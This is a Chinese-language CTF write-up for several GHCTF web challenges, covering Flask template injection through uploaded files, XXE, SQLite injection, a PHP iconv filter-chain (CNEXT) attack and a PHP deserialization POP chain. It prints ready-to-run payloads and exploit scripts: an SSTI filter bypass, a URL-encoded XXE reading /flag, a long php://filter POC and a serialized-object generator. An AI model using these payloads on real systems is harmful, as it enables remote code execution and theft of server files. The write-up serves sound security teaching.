










# GHCTF web详细wp-先知社区

> **来源**: https://xz.aliyun.com/news/17146  
> **文章ID**: 17146

---

# upload?SSTI!

```
import os
import re

from flask import Flask, request, jsonify,render_template_string,send_from_directory, abort,redirect
from werkzeug.utils import secure_filename
import os
from werkzeug.utils import secure_filename

app = Flask(__name__)

# 配置信息
UPLOAD_FOLDER = 'static/uploads'  # 上传文件保存目录
ALLOWED_EXTENSIONS = {'txt', 'log', 'text','md','jpg','png','gif'}
MAX_CONTENT_LENGTH = 16 * 1024 * 1024  # 限制上传大小为 16MB

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
app.config['MAX_CONTENT_LENGTH'] = MAX_CONTENT_LENGTH

# 创建上传目录（如果不存在）
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
def is_safe_path(basedir, path):
    return os.path.commonpath([basedir,path])


def contains_dangerous_keywords(file_path):
    dangerous_keywords = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]

    with open(file_path, 'rb') as f:
        file_content = str(f.read())


        for keyword in dangerous_keywords:
            if keyword in file_content:
                return True  # 找到危险关键字，返回 True

    return False  # 文件内容中没有危险关键字
def allowed_file(filename):
    return '.' in filename and \
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        # 检查是否有文件被上传
        if 'file' not in request.files:
            return jsonify({"error": "未上传文件"}), 400

        file = request.files['file']

        # 检查是否选择了文件
        if file.filename == '':
            return jsonify({"error": "请选择文件"}), 400

        # 验证文件名和扩展名
        if file and allowed_file(file.filename):
            # 安全处理文件名
            filename = secure_filename(file.filename)
            # 保存文件
            save_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
            file.save(save_path)


            # 返回文件路径（绝对路径）
            return jsonify({
                "message": "File uploaded successfully",
                "path": os.path.abspath(save_path)
            }), 200
        else:
            return jsonify({"error": "文件类型错误"}), 400

    # GET 请求显示上传表单（可选）
    return '''
    <!doctype html>
    <title>Upload File</title>
    <h1>Upload File</h1>
    <form method=post enctype=multipart/form-data>
      <input type=file name=file>
      <input type=submit value=Upload>
    </form>
    '''

@app.route('/file/<path:filename>')
def view_file(filename):
    try:
        # 1. 过滤文件名
        safe_filename = secure_filename(filename)
        if not safe_filename:
            abort(400, description="无效文件名")

        # 2. 构造完整路径
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], safe_filename)

        # 3. 路径安全检查
        if not is_safe_path(app.config['UPLOAD_FOLDER'], file_path):
            abort(403, description="禁止访问的路径")

        # 4. 检查文件是否存在
        if not os.path.isfile(file_path):
            abort(404, description="文件不存在")

        suffix=os.path.splitext(filename)[1]
        print(suffix)
        if suffix==".jpg" or suffix==".png" or suffix==".gif":
            return send_from_directory("static/uploads/",filename,mimetype='image/jpeg')

        if contains_dangerous_keywords(file_path):
            # 删除不安全的文件
            os.remove(file_path)
            return jsonify({"error": "Waf!!!!"}), 400

        with open(file_path, 'rb') as f:
            file_data = f.read().decode('utf-8')
        tmp_str = """<!DOCTYPE html>
        <html lang="zh">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>查看文件内容</title>
        </head>
        <body>
            <h1>文件内容：{name}</h1>  <!-- 显示文件名 -->
            <pre>{data}</pre>  <!-- 显示文件内容 -->

            <footer>
                <p>&copy; 2025 文件查看器</p>
            </footer>
        </body>
        </html>
        """.format(name=safe_filename, data=file_data)

        return render_template_string(tmp_str)

    except Exception as e:
        app.logger.error(f"文件查看失败: {str(e)}")
        abort(500, description="文件查看失败:{} ".format(str(e)))


# 错误处理（可选）
@app.errorhandler(404)
def not_found(error):
    return {"error": error.description}, 404


@app.errorhandler(403)
def forbidden(error):
    return {"error": error.description}, 403


if __name__ == '__main__':
    app.run("0.0.0.0",debug=False)
```

根据源码分析可知，我们上传上去的文件内容会被渲染，这里就可能照成ssti漏洞



根据源码，文件渲染的路径为/file/文件名


这里确实成功渲染

```
def contains_dangerous_keywords(file_path):
    dangerous_keywords = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]
```

看了看黑名单，这里直接用fengjing

```
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str): # 如果字符串s可以通过waf则返回True, 否则返回False
 dangerous_patterns = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]
 for pattern in dangerous_patterns:
  if pattern in s:

 # print("Dangerous pattern found:", pattern)
    return False
 return True

if __name__ == "__main__":
 shell_payload, _ = exec_cmd_payload(waf, "ls")
 # config_payload = config_payload(waf)

 print(shell_payload)
 # print(f"{config_payload=}")
```

运行即可得到payload

```
{{g.pop[gl][bu][im](pi).popen('ls').read()}}
```

# (>﹏<)

考xxe

源码：

```
from flask import Flask,request
import base64
from lxml import etree
import re
app = Flask(__name__)

@app.route('/')
def index():
    return open(__file__).read()


@app.route('/ghctf',methods=['POST'])
def parse():
    xml=request.form.get('xml')
    print(xml)
    if xml is None:
        return "No System is Safe."
    parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
    root = etree.fromstring(xml, parser)
    name=root.find('name').text
    return name or None


if __name__=="__main__":
    app.run(host='0.0.0.0',port=8080)
```

直接POST传参xml即可

```
%3c%21%44%4f%43%54%59%50%45%20%74%65%73%74%20%5b%0d%0a%20%20%20%20%3c%21%45%4e%54%49%54%59%20%78%78%65%20%53%59%53%54%45%4d%20%22%66%69%6c%65%3a%2f%2f%2f%66%6c%61%67%22%3e%0d%0a%5d%3e%0d%0a%3c%72%6f%6f%74%3e%0d%0a%20%20%20%20%3c%6e%61%6d%65%3e%26%78%78%65%3b%3c%2f%6e%61%6d%65%3e%0d%0a%3c%2f%72%6f%6f%74%3e
```

# SQL???


这题考sqlite注入，这里可以直接用sqlmap跑



# ezzzz\_pickle

admin/admin123弱口令直接登录



点击读取flag，抓包



可能存在文件读取

这里直接非预期了，直接读环境变量



# ez\_readfile

这题的思路其实就是打cnext，但是直接用脚本的话跑不出来，感觉是吞字符的原因。

md5强碰撞，可以用工具fastcoll\_v1.0.0.5.exe生成，也可以直接用网上的payload

文章<https://blog.csdn.net/EC_Carrot/article/details/109527378>

这里发现我bp的post传的字符是可以利用的，但是python发包不行，所以就没有直接用cnext的脚本直接跑了



然后找文章看看能不能直接本地生成payload直接打的

原来只要读这两个文件的内容即可

找到这个工具<https://github.com/kezibei/php-filter-iconv>

我们先利用

php://filter/convert.base64-encode/resource=/proc/self/maps

下载，然后看到这个文件里面有说明libc具体的位置

php://filter/convert.base64-encode/resource=/lib/x86\_64-linux-gnu/libc-2.31.so

然后改成脚本里面的名字maps和libc-2.23.so放在exp的同一个目录下面


然后exp2.py写的命令是



因为我怕php的字符会吞掉或者转义之类的没掉，然后直接看flag的名字就行

php://filter/read=zlib.inflate|zlib.inflate|dechunk|convert.iconv.latin1.latin1|dechunk|convert.iconv.latin1.latin1|dechunk|convert.iconv.latin1.latin1|dechunk|convert.iconv.UTF-8.ISO-2022-CN-EXT|convert.quoted-printable-decode|convert.iconv.latin1.latin1/resource=data:text/plain;base64,e3vXMU9lu2hD4rr7hkVMYeVbXXSzEq0Xl64L2BB5/YQa9%2bHlZ9S%2bn0g2vKmizWz0gHE//5Hzz1a4v7qknRG9lYkBL9jQkmv9%2bJ7c97DnK%2b0erdi6RneSNAt%2bHQmCt8uO7bV9t/ZccO2RwOzIaBVzDvw6Dihte9tTXX0neu7yXx2Lr23a5pEngF9HxKni7ML8r/de2Vy1msdgf23xv%2bdHp6%2bXvxW4/XH0v47jF299/PfT/e8C12t1199/7g5TqZfDbx7Dj83Vqw23hc%2b%2bbfNWt%2b981Z%2bA/u3PP1bIrpV9P999bfLeVxf3ya4////v92nv///4/939UzQbXuMa7j/9efovw6fn%2bt%2bZT8y3P3/5vGnf9%2bcfv13%2b%2bE3q9V65/iqb7Y9/Pq74%2bO3xx2%2bF9V%2bXF9b8%2bVpRd0f/28cpn2J%2bH9/4/n/t52ybOX/WyubP/76x7//U%2bzV7/hfLHC//V/a90Gaf7PvfH%2b%2b5PX98Vvf0r7/ak%2bzzCfju9I1tYt/D3gNjZG1g2Lf19/8JnnzLSCBOSuZOvGm8t3%2bLRndHyj8C5vtcl5xpe/m3R/emDo9n/KMGjxo8ajDZBm/Ys/ZaxMui7ZVb5YtvL3IpkiZgtk7%2batOwXXdy494ev7NNY%2bIdNkKFwe2s3ql65bPDfxtu1/VS2U6oINi07daje1k1/vK/p8qbn5r%2bI/rn8/i6v9Wagg/LCNgUcS0s%2bk507/uXyfuzpuiLCeax41ffkJq79ejeqz/m2X1b7fYzSfBjPgA=

生成的poc

bp发包之后没回显，但其实已经写入了



成功拿到flag名字

f1wlxekj1lwjek1lkejzs1lwje1lwesjk1wldejlk1wcejl1kwjelk1wjcle1jklwecj1lkwcjel1kwjel1cwjl1jwlkew1jclkej1wlkcj1lkwej1lkcwjellag



非预期解，直接读docker文件名字

# Popppppp

pop链构造

源码：

```
<?php
error_reporting(0);

class CherryBlossom {
    public $fruit1;
    public $fruit2;

    public function __construct($a) {
        $this->fruit1 = $a;
    }

    function __destruct() {
        echo $this->fruit1;
    }

    public function __toString() {
        $newFunc = $this->fruit2;
        return $newFunc();
    }
}

class Forbidden {
    private $fruit3;

    public function __construct($string) {
        $this->fruit3 = $string;
    }

    public function __get($name) {
        $var = $this->$name;
        $var[$name]();
    }
}

class Warlord {
    public $fruit4;
    public $fruit5;
    public $arg1;

    public function __call($arg1, $arg2) {
        $function = $this->fruit4;
        return $function();
    }

    public function __get($arg1) {
        $this->fruit5->ll2('b2');
    }
}

class Samurai {
    public $fruit6;
    public $fruit7;

    public function __toString() {
        $long = @$this->fruit6->add();
        return $long;
    }

    public function __set($arg1, $arg2) {
        if ($this->fruit7->tt2) {
            echo "xxx are the best!!!";
        }
    }
}

class Mystery {

    public function __get($arg1) {
        array_walk($this, function ($day1, $day2) {
            $day3 = new $day2($day1);
            foreach ($day3 as $day4) {
                echo ($day4 . '<br>');
            }
        });
    }
}

class Princess {
    protected $fruit9;

    protected function addMe() {
        return "The time spent with xxx is my happiest time" . $this->fruit9;
    }

    public function __call($func, $args) {
        call_user_func([$this, $func . "Me"], $args);
    }
}

class Philosopher {
    public $fruit10;
    public $fruit11="sr22kaDugamdwTPhG5zU";

    public function __invoke() {
        if (md5(md5($this->fruit11)) == 666) {
            return $this->fruit10->hey;
        }
    }
}

class UselessTwo {
    public $hiddenVar = "123123";

    public function __construct($value) {
        $this->hiddenVar = $value;
    }

    public function __toString() {
        return $this->hiddenVar;
    }
}

class Warrior {
    public $fruit12;
    private $fruit13;

    public function __set($name, $value) {
        $this->$name = $value;
        if ($this->fruit13 == "xxx") {
            strtolower($this->fruit12);
        }
    }
}

class UselessThree {
    public $dummyVar;

    public function __call($name, $args) {
        return $name;
    }
}

class UselessFour {
    public $lalala;

    public function __destruct() {
        echo "Hehe";
    }
}

if (isset($_GET['GHCTF'])) {
    unserialize($_GET['GHCTF']);
} else {
    highlight_file(__FILE__);
}
```



我们最终的目的还是得走到Mystery类，通过原生类来读取flag

这里讲下**array\_walk****函数**

* **参数** **$arg1****：这是尝试访问的属性名称。然而，在此方法体内并没有直接使用这个参数。**
* **array\_walk($this, ...)****：该函数会对****$this****（即当前对象）的每个元素应用用户自定义的回调函数。这里的作用是遍历对象的所有属性。**
* **匿名函数****：作为****array\_walk****的第二个参数传入，它接收两个参数：**
* **$day1****：当前属性的值。**
* **$day2****：当前属性的名称。**

最终pop链

```
< ?php


class CherryBlossom {
public $fruit1;
public $fruit2;
}


class Samurai {
public $fruit6;
public $fruit7;
}


class Philosopher {
public $fruit10;
public $fruit11="SwjI4H8ZbLdWv6zJxOZN";
}


class Princess {
//
public $fruit9;
}


class Mystery {
public $SplFileObject="../../../flag44545615441084";
}

$a = new
CherryBlossom();
$b = new
CherryBlossom();
$c = new
Samurai();
$d = new
Princess();
$e = new
Philosopher();
$f = new
Mystery();
$a->fruit1 =$c;
$a->fruit1->fruit6 =$d;
$a->fruit1->fruit6->fruit9 =$b;
$a->fruit1->fruit6->fruit9->fruit2 =$e;
$a->fruit1->fruit6->fruit9->fruit2->fruit10 =$f;
echo
urlencode(serialize($a));
```

$f是一个Mystery类的实例，那么理论上，当\_\_get方法尝试处理SplFileObject属性时，它会尝试根据字符串"SplFileObject"创建一个新实例，并以"../../../flag44545615441084"为参数传递给构造函数。SplFileObject的构造函数需要一个有效的文件路径作为参数，若该路径有效，则会导致读取指定文件内容的行为。

类似的可以先通过**FilesystemIterator函数遍历文件**
